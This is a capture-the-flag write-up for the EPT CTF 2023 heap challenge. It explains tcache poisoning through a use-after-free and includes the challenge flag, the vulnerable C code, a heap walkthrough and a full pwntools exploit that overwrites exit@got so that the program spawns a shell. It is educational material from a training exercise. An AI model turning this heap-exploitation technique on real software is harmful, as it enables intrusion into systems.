






# Veal and Car's first baby (heap).
Author: nordbo

Flag: `EPT{hEaPT_CtF_2O23!}`
## Description
```
This challenge is intended to be an introduction to use after free and heap t-cache exploitation. Read the README.md in the handout.

nc io.ept.gg 30005
```

## Provided challenge files
* [vcs_handout.tar.gz](./vcs_handout.tar.gz)

## Solution

### Intro to tcache poisoning

#### Poisoning tcache bins to create a write-what-where gadget and overwrite a GOT address.

Author: krloer

This was a pwn challenge at EPT CTF 2023 with 5 solves. It is perfect if you would like to learn about the tcache and tcache poisoning. The challenge files provided were a dockerfile, a dockerfile for development, a very nice README, the programs C code and the binary. I did not use the dev environment as I recently made my own template that attaches with gef and pwntools to a docker process. The gef script I'm sourcing can be found [here](https://github.com/bata24/gef) (but it is not necessary).

Reading and running the binary, it looks like a normal CRUD challenge with functions that Create, Read, Update and Delete heap chunks. Since the challenge description called it a tcache intro challenge, I immediately considered tcache poisoning which looked promising. For tcache poisoning to be a viable plan of attack we usually need a UAF and a Modify function, and we have both. The UAF exists because when the program calls free in the `delete()` function, it doesnt clear the heap pointer it frees. This means we can edit the address itemList\[idx] points to after it is free'd (-> UAF).

```c
void delete ( void ) {
    int idx  = read_int_input("Index?\n> ");
    if (idx < 0 || idx >= MAX_ITEMS) {
        puts("[!] Index out of range.");
        exit(1337);
    }
    if (itemList[idx] == NULL) {
        puts("[-] Cant free nullptr.");
        return;
    }
    free(itemList[idx]); // itemList[idx] = NULL would have made this safe
}
```

Let's take a look at checksec before we continue, to see what we're working with:



Both PIE and RELRO are disabled, so this is as straight forward tcache poisoning as we were promised. This means we can overwrite a GOT pointer at a predictable address. 

Tcache poisoning involves corrupting the linked list of free tcache bins to create heap chunks whereever we want. To illustrate, we can run the script, create three chunks and then delete those chunks with the code below (see the full exploit at the bottom for my gdb.attach() method etc.).

```py
def send(payload):
    p.recvuntil(b">") # thank you nordbo
    p.sendline(payload)

send(b"1") #create (malloc)
send(b"0")

send(b"1") #create (malloc)
send(b"1")

send(b"1") #create (malloc)
send(b"2")

send(b"4") #delete (free)
send(b"2")

send(b"4") #delete (free)
send(b"1")

send(b"4") #delete (free)
send(b"0")

p.interactive()
```

Notice that I free'd the chunks in the opposite order to the one i created them in. After running this and attaching with gdb, we can run visual-heap in gef to view the heap at the current moment:



The colors in the output represents separate chunks. They have been free'd which you can see from the `tcache[idx=4,sz=0x60][1/3]` text on the right. The \[1/3] part of that is the most important and refers to it being the first in a linked list of the three freed chunks. We can also see this in the heap content itself. If you look at the first pointer in the first chunk (the one at 0x68c2a0) you see the address 0x68c300 which is the address of the second chunk! The linked list structure can be further confirmed by the first pointer in the second chunk pointing to the last free'd chunk (at 0x68c360). 

Another way to visualize the linked list is to use the `bins` command to view free tcache bins. Here the fd value points to the next chunk in the linked list, and these values match the pointers we saw on the heap.



This is all well and good, but what use is it to us? Well, when we create a new chunk with the same size as the previous chunks, it will use a heap chunk from the list of free'd chunks and remove that chunk from the linked list. In our current execution, the linked list of free chunks looks like this:

```
0x60: 0x68c2a0 --> 0x68c300 --> 0x68c360
```

I'd recommend taking a minute to locate these addresses on the heap views above. To create the linked list the program takes the first chunk, and checks for a pointer to the next free chunk (like how 0x68c2a0 points to 0x68c300). If it doesn't exist, then we have found the last of the free chunks. If it does exist, it adds that pointer to the linked list and searches the address it points to for a new free chunk pointer.

If we create a new chunk of the same size now, it will use the chunk pointed to by the first element of the list and recreate the linked list based on the pointers in the free chunks again. We can observe this by having the program create another chunk. The heap now looks like this:



It did indeed use the first chunk and now the linked list of free chunks only contains `0x60: 0x68c300 --> 0x68c360`. Hopefully you now have an understanding of the basic functionality of the tcache. The poisoning part involves changing one of the pointers of the free'd chunks to point at what we want. To do this we can use the UAF we discovered to edit the second chunk we created (by sending "2", then "1" and then "AAAA"). If we run `bins` again after editing the chunk to "AAAA", the output looks like this:



If you would like to understand it even better, try to follow along (see my script at the bottom or the README provided for debugging help) and see how this output corresponds with the output of `visual-heap`. What we have done is to edit the pointer located at 0x68c300 to 0x41414141 instead of 0x68c360 as it was previously. This means that `0x60: 0x68c300 --> 0x68c360` has been edited to `0x60: 0x68c300 --> 0x41414141`. If we now create another chunk, it will use the chunk at 0x68c300, and the free'd chunk list will only contain `0x60: 0x41414141`. If we then create another chunk it will create the chunk at (the address) 0x41414141. If we try it now, it will cause a segmentation fault, because 0x41414141 is not a valid address. However if it was a valid address, we would be able to use our "chunk" in that location as a normal chunk and modify the value at that address. This ultimately gives us the opportunity to write anything wherever we want.

When we ran checksec, we found partial RELRO, which means that we can overwrite the Global Offset Table, and we have PIE disabled which means we know where the GOT addresses are. The GOT contains pointers from a functions GOT entry (inside the binary) to its actual address in libc (which are linked when the program is run). If we create a chunk with the address of a GOT entry, we can edit what is interpreted by the program as the libc address of that function. When the function then is called, it will call the address we specify instead of the libc address.

When deciding which GOT entry to overwrite, it is important to pick a function that we call reliably, and it is often easier to use a function that has not been called yet (because it doesn't already have a libc address pointer). I therefore chose to overwrite the entry of `exit` as it has not been called, and we can call it by sending an illegal index to the `create` function. 

When it comes to what address we want to call, this has been made very easy for us with the `winner` function in the binary that spawns a shell. We can execute our plan using the following script.

```py
send(b"1") #create (malloc)
send(b"0")

send(b"1") #create (malloc)
send(b"1")

send(b"4") #delete (free)
send(b"1")

send(b"4") #delete (free)
send(b"0")

send(b"2")
send(b"0")
send(p64(exe.got["exit"])) # point free list to exit@got

send(b"1") # create (malloc)
send(b"3")

send(b"1") # create chunk at exit@got
send(b"4")

send(b"2")
send(b"4")
send(p64(exe.sym["winner"])) # edit exit@got to point at the winner function

send(b"1")
send(b"-1")

p.interactive()
```

The free'd list after the two creates and deletes is `0x60: chunk1 -> chunk2`. We then edit it to be `0x60: chunk1 -> exit@got`. We then create two chunks to create the second chunk at the address of exit@got, and editing exit@got to point at the winner function instead of libc. We then make sure exit is called by sending a negative index to `create`, and when the program tries to call `exit` it will call the `winner` function instead.

Running this locally gives us a shell, and running it against the remote lets us read the flag.



If you liked this writeup, feel free to check out the original and other similar writeups at [ctf.krloer.com](https://ctf.krloer.com/writeups/ept/baby_heap/)

### Full exploit:

```py
#!/usr/bin/env python3
from pwn import *
import psutil

BINARY = "vcs_first"

context.update(arch="amd64",os="linux")
context.binary = exe = ELF(f"./{BINARY}", checksec=False)

def get_pid_by_name(process_name):
    for process in psutil.process_iter(attrs=['pid', 'name']):
        if process.info['name'] == process_name:
            return process.info['pid']
    return None

# IMPORTANT: requires that you run `docker run -d -p 1024:1024 --rm -it vcs_first` first (with the normal docker image, not the development onw)
# p = remote("localhost", 1024)
# pause() # to give it some time

p = remote("io.ept.gg", 30005)

# uncomment to attach to process in docker
# gdb.attach(target=get_pid_by_name(BINARY), exe=f"./{BINARY}", gdbscript='''
#     source /home/moody/.gdbinit-gef-docker.py
#     c
# ''')

def send(payload):
    p.recvuntil(b">") # thank you nordbo
    p.sendline(payload)

send(b"1") #create (malloc)
send(b"0")

send(b"1") #create (malloc)
send(b"1")

send(b"4") #delete (free)
send(b"1")

send(b"4") #delete (free)
send(b"0")

send(b"2")
send(b"0")
send(p64(exe.got["exit"])) # point free list to exit@got

send(b"1") # create (malloc)
send(b"3")

send(b"1") # create chunk at exit@got
send(b"4")

send(b"2")
send(b"4")
send(p64(exe.sym["winner"])) # edit exit@got to point at the winner function

send(b"1")
send(b"-1")

p.interactive()
```